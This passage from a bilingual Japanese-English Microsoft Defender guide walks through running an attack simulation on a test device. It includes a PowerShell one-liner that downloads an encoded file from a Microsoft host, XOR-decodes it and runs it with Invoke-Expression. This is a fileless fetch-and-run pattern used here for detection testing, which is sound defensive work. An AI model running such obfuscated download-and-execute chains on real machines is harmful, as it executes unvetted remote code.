     <br>
    <span data-ttu-id="0411f-150">d. </span><span class="sxs-lookup"><span data-stu-id="0411f-150">d.</span></span>  <span data-ttu-id="0411f-151">テストデバイスが [Microsoft Defender Advanced Threat Protection (MDATP) に利用](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)していることを確認します。</span><span class="sxs-lookup"><span data-stu-id="0411f-151">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="0411f-152">既存のテナントを使用し、デバイスグループを実装する場合は、テストデバイス用の専用デバイスグループを作成し、構成 UX の最上位レベルにプッシュします。</span><span class="sxs-lookup"><span data-stu-id="0411f-152">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="0411f-153">シミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="0411f-153">Run the simulation</span></span>

<span data-ttu-id="0411f-154">Attack scenario シミュレーションを実行するには、次の手順を実行します。</span><span class="sxs-lookup"><span data-stu-id="0411f-154">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="0411f-155">テストユーザーアカウントを使用して、テストデバイスにログインします。</span><span class="sxs-lookup"><span data-stu-id="0411f-155">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="0411f-156">テストデバイスで Windows PowerShell ウィンドウを開きます。</span><span class="sxs-lookup"><span data-stu-id="0411f-156">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="0411f-157">次のシミュレーションスクリプトをコピーします。</span><span class="sxs-lookup"><span data-stu-id="0411f-157">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="0411f-158">このドキュメントを web ブラウザーで開くと、特定の文字を失わずに完全なテキストをコピーしたり、改行を加えることができない問題が発生することがあります。</span><span class="sxs-lookup"><span data-stu-id="0411f-158">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="0411f-159">このドキュメントをダウンロードし、Adobe Reader で開きます。</span><span class="sxs-lookup"><span data-stu-id="0411f-159">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="0411f-160">プロンプトで、貼り付けてコピーしたスクリプトを実行します。</span><span class="sxs-lookup"><span data-stu-id="0411f-160">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="0411f-161">リモートデスクトッププロトコル (RDP) を使用して PowerShell を実行している場合は、 **CTRL キーを押しながら** ホットキーまたは右クリックによる貼り付けの方法が機能しない可能性があるため、rdp クライアントの [クリップボードテキストの入力] コマンドを使用します。</span><span class="sxs-lookup"><span data-stu-id="0411f-161">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="0411f-162">最近使用したバージョンの PowerShell では、このメソッドが受け入れられない場合があります。メモ帳をメモリに最初にコピーして、仮想マシンにコピーしてから、PowerShell に貼り付ける必要があるかもしれません。</span><span class="sxs-lookup"><span data-stu-id="0411f-162">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
